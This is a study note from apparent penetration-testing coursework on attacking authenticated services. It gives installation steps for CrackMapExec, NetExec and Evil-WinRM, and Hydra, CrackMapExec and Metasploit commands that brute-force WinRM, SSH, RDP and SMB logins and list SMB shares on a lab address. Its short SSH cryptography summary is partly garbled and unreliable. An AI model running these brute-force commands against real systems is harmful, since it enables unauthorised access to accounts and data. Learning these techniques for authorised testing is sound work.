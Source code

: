 there are many services that uses authentication 

#### CrackMapExec
We can install `CrackMapExec` via apt on a Parrot host or clone the [GitHub repo](https://github.com/byt3bl33d3r/CrackMapExec) and follow the various [installation](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation) methods, such as installing from source and avoiding dependency issues.

```shell-session
sudo apt-get -y install crackmapexec
```

```bash
sudo apt install -y git python3 python3-pip python3-dev libssl-dev libffi-dev build-essential

git clone https://github.com/Porchetta-Industries/CrackMapExec

cd CrackMapExec

python3 -m venv venv

source venv/bin/activate

#install all the dependence 
pip install --upgrade pip
pip install .

cme --help

```


Alternatively, we can install [NetExec](https://github.com/Pennyw0rth/NetExec) to follow along using `sudo apt-get -y install netexec`

specific service help

```shell-session
crackmapexec smb -h
```

#### CrackMapExec Usage

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```


Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

#### Evil-WinRM
```shell-session
sudo gem install evil-winrm
```

usage
```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```
```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

### ssh

there are 3 different cryptography 
1. symmetric 
	1. Symmetric encryption uses the `same key` for encryption and decryption. However, anyone who has access to the key could also access the transmitted data. Therefore, a key exchange procedure is needed for secure symmetric encryption. The [Diffie-Hellman](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) key exchange method is used for this purpose.
	2. if someone else got the key they cant decrypt because of exchange method
	3. AEX,Blowfish,3DES
2. asymmetric
	1. `two SSH keys`: a private key and a public key. The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key. If an attacker obtains the private key, which is often not password protected, he will be able to log in to the system without credentials. Once a connection is established, the server uses the public key for initialization and authentication. If the client can decrypt the message, it has the private key, and the SSH session can begin.
3. hashing
	1. The hashing method converts the transmitted data into another unique value.
	2. SSH uses

### Hydra - ssh

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```bash
ssh username@<ip>
>password
```
### Remote Desktop protocol (RDP)

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
we can use this tool to login
- remmina
- rdesktop
- xfreerdp

### SMB
- send data between client and server in lan
- smb is also called as CIFS (common internet file sys)

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```
some times we may get error because of the versions of smbv3 so we can use metasploitable

```shell-session
msfconsole -q

use auxiliary/scanner/smb/smb_login

set user_file user.list
set pass_file password.list
set rhosts <ip>
run
```

`CrackMapExec` again to view the available shares and what privileges we have for them

```shell-session
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

we can view through
```shell-session
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

